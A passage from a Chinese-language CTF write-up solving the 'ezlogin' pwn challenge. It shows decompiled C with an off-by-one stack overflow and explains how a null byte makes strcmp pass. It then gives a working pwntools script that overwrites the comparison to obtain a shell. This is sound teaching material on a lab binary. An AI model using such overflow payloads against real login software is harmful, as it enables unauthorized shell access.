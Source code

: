 ```c
int ssh()
{
    char s1[16]; // [rsp+0h] [rbp-40h] BYREF
    char ptr[31]; // [rsp+10h] [rbp-30h] BYREF
    char v3; // [rsp+2Fh] [rbp-11h]
    FILE *stream; // [rsp+30h] [rbp-10h]
    int i; // [rsp+3Ch] [rbp-4h]

    stream = fopen("/dev/urandom", "r");
    fread(ptr, 0x10uLL, 1uLL, stream);
    fclose(stream);
    printf("Please input your password:");
    for ( i = 0; i <= 16; ++i )
    {
        v3 = getchar();
        if ( v3 == 10 )
        {
            s1[i] = 0;
            break;
        }
        s1[i] = v3;
    }
    if ( strcmp(s1, ptr) )
      return puts("Username or Password Error!");
    puts("Welcome admin!");
    return system("/bin/sh");
}
```

观察发现函数体多循环了一次，比申请栈空间多了一个，且字串`ptr`在`s1`下方，所以可以通过溢出覆盖`s1`，使得`s1`与`ptr`通过`strcmp`判定，从而获得`shell`。

`strcmp`匹配过程：两个字符串自左向右逐个字符相比（按ASCII值大小相比较），直到出现不同的字符或遇`'\0'`为止。

所以令`s1`和`prt`第一个字符为`\0`，让函数认为两个字符串完全相等，从而获得`shell`。

```python
from pwn import *

# context(endian="little", os="linux", arch="i386", log_level="debug")

p = process("./ezlogin")
# p = remote('ctf.qwq.cc', 14566)
payload = b"ssh cc@v50to.cc"
p.sendlineafter("$", payload)

payload = b"\0" + b"a" * 15 + b"\0"
p.sendafter("Please input your password:", payload)

p.interactive()
```

### EzCheckin
